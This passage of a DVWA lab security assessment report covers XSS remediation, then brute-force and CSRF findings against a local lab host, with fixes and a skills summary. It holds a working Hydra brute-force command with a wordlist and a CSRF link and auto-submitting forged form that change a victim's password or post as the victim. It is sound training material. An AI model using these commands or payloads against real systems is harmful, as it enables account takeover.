| **Defacement** | Alter website appearance | Medium |
| **Phishing** | Display fraudulent content | High |

#### 2.7 Remediation

**Priority:** 🟠 **HIGH - Fix within 7 days**

**Solution 1: Output Encoding (Primary Fix)**

❌ **Vulnerable Code:**
```php
echo "Hello " . $_GET['name'];
```

✅ **Secure Code:**
```php
echo "Hello " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
```

**Solution 2: Content Security Policy**

Add CSP header to prevent inline scripts:
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'");
```

**Solution 3: Input Validation**
```php
// Whitelist allowed characters
if (!preg_match('/^[a-zA-Z0-9\s]+$/', $_GET['name'])) {
    die("Invalid input");
}
```

**Solution 4: HTTPOnly Cookie Flag**
```php
setcookie("session", $value, [
    'httponly' => true,
    'secure' => true,
    'samesite' => 'Strict'
]);
```

This prevents JavaScript from accessing cookies, mitigating session theft.

---

### 3. Brute Force Attack

**Vulnerability ID:** DVWA-BF-001  
**Severity:** 🟠 **HIGH**  
**CVSS v3.1 Score:** 7.5 (High)  
**CWE:** CWE-307 (Improper Restriction of Excessive Authentication Attempts)  
**OWASP Top 10:** A07:2021 – Identification and Authentication Failures

---

#### 3.1 Vulnerability Description

The application lacks adequate protection against automated authentication attacks, allowing unlimited login attempts without rate limiting, account lockout, or CAPTCHA challenges. Additionally, credentials are transmitted via GET method, exposing them in:

- URL parameters
- Browser history
- Server access logs
- Proxy logs
- Referrer headers

#### 3.2 Affected Component

**Location:** Brute Force authentication module  
**Endpoint:** `/dvwa/vulnerabilities/brute/`  
**Parameters:** `username`, `password`  
**Method:** GET (Insecure)

#### 3.3 Exploitation Process

**Step 1: Successful Login (Baseline)**

Credentials: `admin` / `password`


*Successful authentication with valid credentials - Welcome message displayed with user image*

**Response:**
```
Welcome to the password protected area admin
```

---

**Step 2: Failed Login Attempt**

Credentials: `admin` / `3232` (incorrect password)


*Failed login with incorrect password - Error message displayed but no account lockout*

**Response:**
```
Username and/or password incorrect.
```

**Observation:** No rate limiting, no CAPTCHA, no account lockout - unlimited attempts allowed.

#### 3.4 Technical Analysis

**Burp Suite Traffic Analysis:**


*Burp Suite showing credentials transmitted in URL via GET method - Critical security flaw*

**HTTP Request (Failed Login):**
```http
GET /dvwa/vulnerabilities/brute/?username=admin&password=3232&Login=Login HTTP/1.1
Host: 10.83.80.7
```

**Critical Security Flaws Identified:**

1. ❌ **GET Method Used:** Credentials visible in URL
2. ❌ **No Rate Limiting:** Unlimited login attempts
3. ❌ **No CAPTCHA:** Automated attacks trivial to execute
4. ❌ **No Account Lockout:** Account never locks after failed attempts
5. ❌ **Credentials Logged:** Passwords stored in web server logs

#### 3.5 Automated Attack Demonstration

**Using Hydra (Password Cracking Tool):**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  10.83.80.7 http-get-form \
  "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome:F=incorrect"
```

**Using Burp Suite Intruder:**

1. Send failed login request to Intruder
2. Mark password parameter as payload position
3. Load password wordlist (e.g., rockyou.txt)
4. Launch attack - test thousands of passwords automatically

**Expected Result:** Valid credentials discovered within minutes/hours depending on password complexity.

#### 3.6 Credential Exposure Impact

**Example: Server Access Log Entry**
```
10.83.80.5 - - [18/Feb/2026:14:05:15] "GET /dvwa/vulnerabilities/brute/?username=admin&password=SuperSecret123&Login=Login HTTP/1.1" 200 1234
```

**Password `SuperSecret123` now permanently stored in:**
- Apache access logs
- Burp Suite proxy logs
- Browser history
- Any network monitoring tools
- Analytics platforms

#### 3.7 Business Impact

| Impact Category | Description | Severity |
|----------------|-------------|----------|
| **Account Takeover** | Attackers gain unauthorized access | Critical |
| **Credential Stuffing** | Stolen passwords tested against other services | High |
| **Privacy Violation** | User credentials exposed in logs | High |
| **Compliance Risk** | Violates PCI-DSS, SOC 2 requirements | High |

#### 3.8 Remediation

**Priority:** 🟠 **HIGH - Fix within 7 days**

**Solution 1: Implement Rate Limiting**
```php
// Track failed attempts (using Redis for distributed systems)
$redis = new Redis();
$redis->connect('127.0.0.1', 6379);

$key = "login_attempts:" . $_SERVER['REMOTE_ADDR'];
$attempts = $redis->incr($key);
$redis->expire($key, 900); // 15 minutes

if ($attempts > 5) {
    die("Too many login attempts. Please try again in 15 minutes.");
}
```

**Solution 2: Change to POST Method**

❌ **Vulnerable:**
```html
<form action="login.php" method="GET">
```

✅ **Secure:**
```html
<form action="login.php" method="POST">
```

**Solution 3: Implement Account Lockout**
```php
// After 5 failed attempts, lock account for 1 hour
$max_attempts = 5;
$lockout_duration = 3600; // 1 hour

// Store in database
"UPDATE users SET locked_until = NOW() + INTERVAL 1 HOUR 
 WHERE username = ? AND failed_attempts >= ?"
```

**Solution 4: Add CAPTCHA**

Implement reCAPTCHA v3 after 2-3 failed attempts:
```html
<script src="https://www.google.com/recaptcha/api.js"></script>
<div class="g-recaptcha" data-sitekey="YOUR_SITE_KEY"></div>
```

**Solution 5: Multi-Factor Authentication (MFA)**

Implement TOTP-based 2FA using Google Authenticator or similar:
```php
// Require additional verification code
require 'vendor/autoload.php';
use OTPHP\TOTP;

$otp = TOTP::create($user_secret);
if (!$otp->verify($_POST['code'])) {
    die("Invalid verification code");
}
```

**Solution 6: Use HTTPS**

Always encrypt credentials in transit:
- Obtain SSL/TLS certificate
- Redirect all HTTP traffic to HTTPS
- Implement HSTS header

---

### 4. Cross-Site Request Forgery (CSRF)

**Vulnerability ID:** DVWA-CSRF-001  
**Severity:** 🟡 **MEDIUM**  
**CVSS v3.1 Score:** 6.5 (Medium)  
**CWE:** CWE-352 (Cross-Site Request Forgery)  
**OWASP Top 10:** A01:2021 – Broken Access Control

---

#### 4.1 Vulnerability Description

Cross-Site Request Forgery (CSRF) vulnerabilities allow attackers to trick authenticated users into unknowingly executing unwanted actions. The application fails to verify that requests originate from legitimate sources, enabling attackers to forge requests that execute with the victim's privileges.

**Attack Requirements:**
1. Victim must be authenticated to the application
2. Victim must click malicious link or visit attacker-controlled page
3. Application lacks anti-CSRF tokens or origin validation

#### 4.2 Affected Component

**Location:** CSRF password change module  
**Endpoint:** `/dvwa/vulnerabilities/csrf/`  
**Parameters:** `password_new`, `password_conf`, `Change`  
**Method:** GET (State-changing operation via GET)

#### 4.3 Exploitation Process

**Step 1: Legitimate Password Change**

New Password: `newpass123`


*Password successfully changed without any CSRF token validation or re-authentication*

**Response:**
```
Password Changed.
```

The password change succeeded without any CSRF token validation or re-authentication.

#### 4.4 Technical Analysis

**Burp Suite Traffic Analysis:**


*Burp Suite revealing critical CSRF vulnerability - No token protection, GET method used, password in URL*

**HTTP Request:**
```http
GET /dvwa/vulnerabilities/csrf/?password_new=newpass123&password_conf=newpass123&Change=Change HTTP/1.1
Host: 10.83.80.7
Cookie: security=low; PHPSESSID=cb6c2c8008bacc26e10a8795c2efd72
Referer: http://10.83.80.7/dvwa/vulnerabilities/csrf/
```

**Critical Vulnerabilities:**

1. ❌ **No CSRF Token:** Request lacks anti-CSRF protection
2. ❌ **GET Method:** State-changing operation via GET
3. ❌ **Password in URL:** Sensitive data exposed
4. ❌ **No Re-authentication:** Current password not required
5. ❌ **No Origin Validation:** Accepts requests from any source

#### 4.5 Attack Scenario

**Attacker's Malicious Website (attacker.com):**
```html
<!-- Hidden image tag that triggers password change -->


<!-- OR embedded in email -->
<a href="http://10.83.80.7/dvwa/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change">
  Click here to claim your prize!
</a>
```

**Attack Flow:**
```
1. Attacker sends phishing email to victim
   └─► "You've won $1000! Click here to claim"

2. Victim (logged into DVWA) clicks malicious link
   └─► Browser automatically includes session cookie

3. DVWA server receives authenticated request
   └─► Validates session cookie ✓
   └─► No CSRF token check ✗

4. Password changed to "hacked123"
   └─► Victim not notified
   └─► Still logged in (doesn't realize compromise)

5. Attacker logs in with new password
   └─► Full account access
```

#### 4.6 Real-World Attack Examples

**Scenario 1: Banking Application**
```html

```
Result: $5,000 transferred from victim to attacker

**Scenario 2: Social Media**
```html
<form action="https://social.com/post" method="POST">
  <input name="message" value="Follow @attacker for free iPhone!">
</form>
<script>document.forms[0].submit();</script>
```
Result: Spam posted from victim's account

**Scenario 3: Admin Panel**
```html

```
Result: User account deleted

#### 4.7 Business Impact

| Impact Category | Description | Severity |
|----------------|-------------|----------|
| **Account Takeover** | Change password → gain persistent access | High |
| **Unauthorized Actions** | Perform actions as victim | Medium |
| **Data Manipulation** | Modify user data without consent | Medium |
| **Privilege Escalation** | If admin compromised, full system access | Critical |

#### 4.8 Remediation

**Priority:** 🟡 **MEDIUM - Fix within 30 days**

**Solution 1: Implement Anti-CSRF Tokens (Primary Defense)**

✅ **Secure Implementation:**
```php
// Generate CSRF token
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// Include token in form
?>
<form method="POST" action="change_password.php">
    <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="password" name="password_new" required>
    <input type="password" name="password_conf" required>
    <button type="submit">Change Password</button>
</form>
<?php

// Validate token on submission
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        die("CSRF token validation failed");
    }
    
    // Process password change
    change_password($_POST['password_new']);
}
```

**Solution 2: Use POST for State-Changing Operations**

❌ **Vulnerable (GET):**
```html
<a href="/change?password=newpass">Change Password</a>
```

✅ **Secure (POST):**
```html
<form method="POST" action="/change">
    <input type="password" name="password">
    <button type="submit">Change Password</button>
</form>
```

**Solution 3: Require Re-authentication**
```php
// For sensitive operations, require current password
if (!verify_password($_POST['current_password'], $user['hashed_password'])) {
    die("Current password incorrect");
}
```

**Solution 4: SameSite Cookie Attribute**
```php
setcookie("PHPSESSID", $session_id, [
    'samesite' => 'Strict',  // Prevents cross-site cookie sending
    'secure' => true,        // HTTPS only
    'httponly' => true       // Not accessible via JavaScript
]);
```

**Solution 5: Referer/Origin Header Validation**
```php
$allowed_origins = ['http://10.83.80.7', 'https://myapp.com'];
$origin = $_SERVER['HTTP_ORIGIN'] ?? $_SERVER['HTTP_REFERER'] ?? '';

if (!in_array($origin, $allowed_origins)) {
    die("Invalid request origin");
}
```

**Solution 6: User Confirmation for Sensitive Actions**

Implement a confirmation page:
```php
// Step 1: Show confirmation page
if (!isset($_POST['confirmed'])) {
    echo "Are you sure you want to change your password?";
    echo '<form method="POST">';
    echo '<input type="hidden" name="confirmed" value="1">';
    echo '<button>Yes, change password</button>';
    echo '</form>';
    exit;
}

// Step 2: Process confirmed action
change_password($new_password);
```

---

## 🛡️ Comprehensive Remediation Summary

### Priority Matrix

| Vulnerability | Severity | Priority | Timeline | Estimated Effort |
|--------------|----------|----------|----------|-----------------|
| SQL Injection | Critical | P0 | Immediate | 2-4 hours |
| XSS | High | P1 | 7 days | 4-6 hours |
| Brute Force | High | P1 | 7 days | 6-8 hours |
| CSRF | Medium | P2 | 30 days | 3-4 hours |

### Quick Win Security Improvements

These changes can be implemented immediately with minimal code changes:

1. **Change GET to POST** for all forms (15 minutes)
2. **Add `htmlspecialchars()` to output** (30 minutes)
3. **Implement basic rate limiting** (1 hour)
4. **Add CSRF tokens** (2 hours)

### Long-term Security Enhancements

1. **Web Application Firewall (WAF)** - Deploy ModSecurity
2. **Security Headers** - Implement CSP, HSTS, X-Frame-Options
3. **Input Validation Library** - Use OWASP ESAPI
4. **Secure Development Training** - Train developers on secure coding
5. **Regular Penetration Testing** - Quarterly security assessments
6. **Bug Bounty Program** - Crowd-sourced vulnerability discovery

---

## 💼 Skills Demonstrated

This project showcases competencies essential for **SOC Level 1 Security Analyst** roles:

### Technical Skills

#### 🔧 Security Testing & Analysis

✅ **Vulnerability Assessment**
- Systematically tested web application for OWASP Top 10 vulnerabilities
- Identified 4 critical/high severity security issues
- Demonstrated real-world exploitation techniques

✅ **Penetration Testing Tools**
- Configured and operated Burp Suite Professional features
- Intercepted and analyzed HTTP/HTTPS traffic
- Modified requests to test for vulnerabilities

✅ **Traffic Analysis**
- Analyzed request/response patterns in Burp Suite
- Identified sensitive data exposure in HTTP parameters
- Documented attack vectors and payloads

#### 🖥️ System Administration

✅ **Linux Administration**
- Configured Kali Linux in virtualized environment
- Installed and configured Apache, MySQL services
- Managed system services with systemctl
- Performed database operations via MySQL CLI

✅ **Network Configuration**
- Set up bridged networking between host and VM
- Troubleshot connectivity issues
- Optimized network performance with paravirtualized adapters

#### 🛠️ Tool Proficiency

✅ **Burp Suite Community Edition**
- Proxy configuration and SSL/TLS interception
- HTTP history analysis
- Manual request modification

✅ **Web Technologies**
- HTTP protocol understanding
- Cookie-based session management
- GET vs. POST methods
- URL encoding and special characters

### Soft Skills

#### 📝 Professional Documentation

✅ **Technical Report Writing**
- Created comprehensive security assessment report
- Documented findings with evidence (screenshots)
- Provided clear, actionable remediation steps
- Structured information for technical and non-technical audiences

✅ **Attention to Detail**
- Captured detailed evidence at each testing phase
- Recorded exact payloads and responses
- Noted specific technical details and HTTP headers

#### 🧩 Problem-Solving

✅ **Independent Troubleshooting**
- Resolved network configuration issues
- Adapted when encountering unexpected errors
- Researched solutions for technical challenges

✅ **Analytical Thinking**
- Understood root causes of vulnerabilities
- Connected technical flaws to business impact
- Prioritized findings by severity and exploitability

#### 💬 Communication

✅ **Risk Communication**
- Translated technical vulnerabilities into business risks
- Explained CVSS scores and severity ratings
- Provided clear remediation timelines

---

## 🎓 Tools & Technologies

### Infrastructure

| Component | Version | Purpose |
|-----------|---------|---------|
| **VirtualBox** | Latest | Virtualization platform |
| **Apache** | 2.4.66 | Web server |
| **MySQL/MariaDB** | 11.8.5 | Database server |
| **PHP** | 8.x | Server-side scripting |

### Development Tools

| Tool | Purpose |
|------|---------|
| **Firefox** | Web browser with proxy support |
| **Git** | Version control |
| **Markdown** | Documentation |

---

## 📊 Metrics & Statistics

### Vulnerability Breakdown
```
Total Vulnerabilities Found: 4

By Severity:
  Critical: 1 (25%)
  High:     2 (50%)
  Medium:   1 (25%)
  Low:      0 (0%)

By Category:
  Injection:        2 (SQL Injection, XSS)
  Authentication:   1 (Brute Force)
  Access Control:   1 (CSRF)
```

### CVSS Score Distribution

| Vulnerability | CVSS Score | Rating |
|--------------|------------|--------|
| SQL Injection | 9.8 | Critical |
| XSS | 7.3 | High |
| Brute Force | 7.5 | High |
| CSRF | 6.5 | Medium |
| **Average** | **7.8** | **High** |

### Time Investment

| Phase | Duration |
|-------|----------|
| Lab Setup | 2 hours |
| Vulnerability Testing | 3 hours |
| Traffic Analysis | 2 hours |
| Documentation | 4 hours |
| **Total** | **11 hours** |

---

## 🎯 Conclusion

This comprehensive web application security assessment successfully demonstrates the **practical skills, technical knowledge, and professional methodology** required for a **SOC Level 1 Security Analyst** position.

### Project Achievements

✅ **Identified 4 OWASP Top 10 Vulnerabilities** through systematic manual testing  
✅ **Exploited Each Vulnerability** to demonstrate real-world security impact  
✅ **Analyzed Attack Traffic** using industry-standard Burp Suite proxy  
✅ **Documented Findings Professionally** with detailed evidence and remediation guidance  
✅ **Applied Industry Best Practices** following OWASP testing methodology

### Key Learnings

1. **Hands-On Security Testing** - Moved beyond theoretical knowledge to practical exploitation
2. **Industry Tool Mastery** - Gained proficiency with Burp Suite, the standard tool for web security professionals
3. **Business Impact Understanding** - Connected technical vulnerabilities to business risks and compliance requirements
4. **Professional Documentation** - Learned to communicate security findings clearly to technical and non-technical stakeholders

### Demonstrated Readiness

This project proves readiness for a **SOC L1 Analyst** role by demonstrating:

- **Technical Competency** - Ability to identify and exploit web vulnerabilities
- **Tool Proficiency** - Skilled use of Burp Suite and Linux testing platforms
- **Analytical Skills** - Understanding of attack vectors and defensive measures
- **Communication Skills** - Clear documentation of complex security issues
- **Professional Approach** - Systematic methodology and attention to detail

### Real-World Applicability

The vulnerabilities identified in this assessment mirror those found in production applications daily:

- **SQL Injection** remains a top attack vector leading to major data breaches
- **XSS** accounts for significant percentage of reported vulnerabilities
- **Authentication Flaws** enable account takeover attacks
- **CSRF** allows unauthorized actions in authenticated sessions

The skills demonstrated here directly transfer to:
- Security Operations Center (SOC) monitoring and analysis
- Vulnerability management programs
- Web application penetration testing
- Security code review


---

## 📄 Legal & Ethical Disclaimer

This security assessment was conducted in a **controlled, isolated lab environment** for **educational purposes only**.

### Important Notes:

⚠️ **DVWA is deliberately vulnerable** and should **NEVER** be deployed on:
- Production servers
- Internet-facing systems
- Shared hosting environments
- Any network accessible to unauthorized users

⚠️ **Ethical Hacking Guidelines:**
- Always obtain written permission before testing systems
- Only test systems you own or have explicit authorization to test
- Unauthorized access to computer systems is illegal under CFAA and similar laws worldwide
- This project demonstrates methodology for legal, authorized security testing only

⚠️ **Lab Isolation:**
- All testing was performed in isolated VirtualBox environment
- No production systems were involved
- No actual user data was compromised

---

## 🙏 Acknowledgments

### Open Source Projects

- **DVWA Team** - For creating an excellent vulnerable application for security training
- **PortSwigger** - For Burp Suite Community Edition
- **Offensive Security** - For Kali Linux platform

### Security Communities

- **OWASP** - For web security testing guidelines and resources
- **HackerOne** - For responsible disclosure practices
- **Security Stack Exchange** - For knowledge sharing and problem-solving

### Learning Resources

- OWASP Testing Guide
- PortSwigger Web Security Academy
- PentesterLab
- Hack The Box

---

## 📚 References

### Standards & Frameworks

1. OWASP Top 10 (2021) - https://owasp.org/Top10/
2. OWASP Web Security Testing Guide - https://owasp.org/www-project-web-security-testing-guide/
3. NIST SP 800-115 - Technical Guide to Information Security Testing
4. CVSS v3.1 Specification - https://www.first.org/cvss/

### Vulnerability Databases

1. CWE (Common Weakness Enumeration) - https://cwe.mitre.org/
2. CVE (Common Vulnerabilities and Exposures) - https://cve.mitre.org/
3. National Vulnerability Database - https://nvd.nist.gov/

### Tools Documentation

1. Burp Suite Documentation - https://portswigger.net/burp/documentation
2. DVWA GitHub - https://github.com/digininja/DVWA
3. Kali Linux Documentation - https://www.kali.org/docs/


---

## 🌟 Project Statistics


**⭐ If you found this project helpful for your security career, please give it a star!**


---

**Last Updated:** February 19, 2026  
**Project Status:** ✅ Complete  
**Documentation Version:** 1.0

---
